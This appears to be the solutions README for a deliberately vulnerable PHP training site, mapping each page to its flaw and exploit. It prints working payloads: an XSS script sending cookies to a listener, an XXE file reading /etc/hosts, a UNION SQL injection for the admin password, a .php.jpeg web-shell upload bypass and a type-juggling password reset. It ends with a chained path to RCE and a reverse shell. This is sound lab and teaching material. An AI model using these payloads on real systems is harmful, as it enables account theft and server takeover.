 
## Solutions & vulnerability locations

**Comments - comments.php**

Name and Comment field should accept something like:
```
{
'name':'name',
'comment':'<script>fetch("http://127.0.0.1:8888",{method: "post",mode: "no-cors",body:document.cookie});</script>'
}
```
Comments and names are stored on the MySQL db and automatically loaded when the page is refreshed.

With a python listener on the host machine, a script like the above should return a cookie.  Since this is not a real website, you'll have to manually log in to test it.

**Order Form - order.php**

Saves an order as an XML file. Only the webadmin account can review orders. Send some XXE here for later.  Order "form" is insecure, but the intended path is to upload something to the "Upload order form option".  There is an example `xxe.xml` file in the Notes folder of the repo.  XML orders can only be viewed at the admin.php page, which links to xml_read.php. Submitted orders are stored in the resources/orders folder.

xxe.xml:
```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/hosts" >]>
<Order>
  <order order_num="4">
    <Name>Brandon</Name>
    <Address>123 Ashley avenue</Address>
    <Email>BrandonRocks@email.com</Email>
    <Item>&xxe;</Item>
  </order>
</Order>
```

**Products Page - Products.php**

Very open to SQL injection.  Once authenticated as a base user, the attacker can get the webadmin password with something in the product search like:
```
1 UNION SELECT NULL, Username, Password FROM users WHERE Username = "webadmin"
```

**Gallery - social.php**

Reasonable file upload filter, but still weak.  This filter will catch files ending in php, but not php.jpg.  This should work:
`evil.php.jpeg`
Then, if an attacker has also grabbed the webadmin password from the products page, from the admin portal they can rename uploads and change the file to `evil.php`.

I've included a cmd.php file in the Notes folder if you want to test it. Submitted images are stored in the resources/user_images folder.

## Admin-only Pages

**Admin - admin_page.php**

This page contains a way to list uploaded image files and rename or delete them, as well as a way to view XML order forms. Both allow for RCE and potentially a reverse shell, depending on the exploitation path.  Maliciously uploaded image files can be renamed, and XML orders can be viewed. The "recover image" functionalty doesn't let you recover images submitted by other users.  Its there in case you delete something and want it back.  XML orders files, uploaded images, and 'deleted' images are in the Resources folder path of the source code.

An image file can be accessed at the localhost:8000/resources/user_images/<evil.file> path.

**Reset Password - reset_pw.php**

PHP type juggling.  This page does not check to see if the user for which the password is being changed is the same user that is logged in.  It just sets the $username_entered variable equal to whatever $_POST['Username'] is.  It does, however, check the $new_password against the $username_entered password in the DB.  

The syntax in the logic is vulnerable:
```
if (($_POST['new_password'] == $_POST['new_password2']) && (strcmp($_POST['old_password'],$password) == 0)){
```
The first half of this section checks that the new password is entered twice, identically.  The second half compares the DB and user-supplied password to ensure that they are the same.  The `== 0` comparison is weak.  PHP evaluates empty arrays as false, which is also "equal to" zero.  Intercepting the HTTP request and changing the 'old_password' to an empty array should allow an attacker to reset the webadmin's password to whatever they like.  Something like this should work:

```
In Burp Suite or another proxy, change old_password=foobar to old_password[]=''
```

**View Orders - view_order.php**

This page renders user provided XML (in the form of an "order form") to the webadmin user.  This should be useful for leveraging XXE attacks submitted via the 'Order Form' page. Orders are automatically assigned numeric names in ascending order.

**continue.php**

This page reflects the user name back to an authenticated user.  Untested, but likely will accept XSS or other input based attacks.  User name is committed to the DB.  No functionality to add a new user or "sign up" is included in the site currently, so it would be difficult to exploit without DB injection.

**db.php**

Hard-coded database credentials are not securely stored, and are left in the default webroot file path.

## No deliberate exploit path, but probably vulnerable anyway due to lazy development ##
- **login.php**
- **logout.php**
- **php.ini** This is just here for docker.
- **phpinfo.php** Included for fun, and can be attacked.
- **continue.php**

This page reflects the user name back to an authenticated user.  Untested, but likely will accept XSS or other input based attacks.  User name is committed to the DB.  No functionality to add a new user or "sign up" is included in the site currently, so it would be difficult to exploit without DB injection.

- **secretdir.php**

The file "secretdir" just holds functions.  It initially was for something else, but I never renamed it.  

## Example Attack Path

**As a user**
1. Stored XSS via comments to obtain user cookie
2. Authenticate with user cookie (or just skip this step and log in as a user from the start)
3. upload a shell with a .php.jgp extension on the 'Gallery' page. Other script types may work, like sh.jpg.
4. Navigate to products page
5. SQLi products page via union select for webadmin password

OR

PHP type juggling to reset webadmin password

Alternatively, attempt an XXE injection on the "Orders page" for later use.

**As webadmin**
1. authenticate as webadmin
2. admin page is now available, although there is no button.  It is admin_page.php.
The admin_page.php site is available after logging in as "webadmin" and clicking the "click here to continue message". A new link for the admin portal should appear.
3. change shell from jpg to php extension
4. use uploaded shell for RCE at /resources/user_images/<filename.php>
5. attempt reverse shell

Alternatively, review the XXE order you placed earlier.
